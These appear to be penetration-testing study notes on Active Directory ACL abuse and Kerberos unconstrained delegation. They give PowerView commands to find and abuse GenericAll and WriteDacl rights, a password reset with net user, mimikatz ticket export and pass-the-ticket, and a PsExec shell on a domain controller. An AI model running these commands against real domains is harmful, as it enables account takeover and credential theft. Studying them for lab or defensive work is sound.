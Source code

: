 ## AD Object Security Permissions

In active Drictory, access to an object is controlled through a Discretionary Access Control List(DACL), which consists of a series of Access Control Entries(ACE).  When multiple ACE's are present, their order is important. If a deny ACE comes before an allow ACE, the dent takes precedence. 

The ACE is stored arccording to the Secutiry Descriptor Definition Language(SDDL).
- ace_type:designates whether the ACE allows or denies permissions
- ace_flags:related to inheritance on child objects
- ace_rights
- object_guid
- inherit_object_guid
- account_sid:SID of the object

```
(A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0)
```
We can reference the [microsoft doc](https://docs.microsoft.com/en-us/windows/win32/secauthz/generic-access-rights) to read/understand the access rights

we cab enumernate the AD OBJ with Get-ObjectAcl, the foreach resolve the SID through ConvertFrom-SID

```
PS C:\tools> Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

#### Generuic All abuse

import powerview
```
PS C:\tools> . .\powerview.ps1
```

The GenericAll access right, which gives full control of the targeted object. 

We can get enumerate all domain users that our current account has GenericAll rights to it, or we can replace **Get-DomainGroup** to find a group 

```
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID
$_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

if we found an account that we have access to it, we can update the password, we can do the samething with **ForceChangePassword** and **AllExtendedRights** access rights to change the password of a user account in a similar way without supplying the old password.
```
PS C:\tools> net user testservice1 pass /domain
```

if our user has **WriteDacl** permission to a AD object, we can use Add-DomainObjectAcl PowerView method to apply additional access rights
such as GenericAll, GenericWrite, or even DCSync if the targeted object is the domain object

```
PS C:\tools> Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```
#### Kerberos Unconstrained Delegation

When the user requests access for a service ticket against a service that uses unconstrained
delegation, the request also includes a forwardable TGT. Since the frontend service receives a forwardable TGT, it can perform authentication on behalf of
the user to any service. this means that if we succeed in compromising the web server service and a user authenticates to it, we can steal the user’s TGT and authenticate to any service.

Identify Unconstrained computer
```
PS C:\tools> Get-DomainComputer -Unconstrained
```
dump the tickets
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

identify the admin TGT, and ptt, and exit sapwn a cmd shell with the ticket
```
mimikatz # kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
mimikatz # exit

C:\Tools> C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd
```
